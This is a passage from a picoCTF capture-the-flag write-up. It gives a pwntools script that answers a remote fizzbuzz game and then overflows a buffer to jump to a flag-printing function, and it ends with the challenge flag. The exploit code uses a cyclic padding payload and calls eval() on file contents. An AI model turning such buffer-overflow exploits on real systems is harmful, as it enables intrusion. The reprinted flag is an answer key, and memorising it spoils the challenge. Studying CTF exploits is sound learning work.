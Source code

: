 The output is an 2-dimensional array of `FizzBuzz(n, ['Equals(y)', 'NotEquals(x)' ...])` (note that the conditions are a list of strings).
I also saved it to a file so that it can be read later.

## Writing the exploit
Now that we know what input to provide to get our buffer overflow, we need to know what to do once we get control. Specifically, there is a function (`0x8048656`)
that will print out the flag. I iterated over the 2-dimensional array to get the `FizzBuzz` and its list of conditions, then wrote functions that provide the appropriate input.

These functions are called using `eval` (for simplicity). The functions are: `FizzBuzz`, `Equals`, `NotEquals`.

```python
from pwn import *

win = 0x8048656
c = remote("mercury.picoctf.net:28132")
ops = []

with open("./ops.txt") as f: # this is the file where I saved the output
    ops = eval(f.read())

def NotEquals(n):
    return lambda x: x != n
def Equals(n):
    return lambda x: x == n

# get the appropriate input to provide,
# based on Equals and NotEquals conditions
def get(eqs):
    eqs = list(eqs)
    # lame method of finding a number that fits
    for i in range(1, 0x100):
        if all(map(lambda x: x(i), eqs)):
            return i

def FizzBuzz(a, l):
    eqs = map(eval, l)
    n = get(eqs)
    for i in range(1, n):
        if i % 15 == 0:
            c.sendline("fizzbuzz")
        elif i % 5 == 0:
            c.sendline("buzz")
        elif i % 3 == 0:
            c.sendline("fizz")
        else:
            c.sendline(str(i))
    if n != a:
        c.sendline("NANI") # exiting early

t = len(ops)
for op1 in ops:
    for op in op1:
        eval(op)

c.send(cyclic(9))
#          padding        saved rbp         win
c.sendline(cyclic(0x63) + p32(0xfffffff0) + p32(win)) # buffer overflow

c.interactive()
```

Flag is `picoCTF{y0u_found_m3}`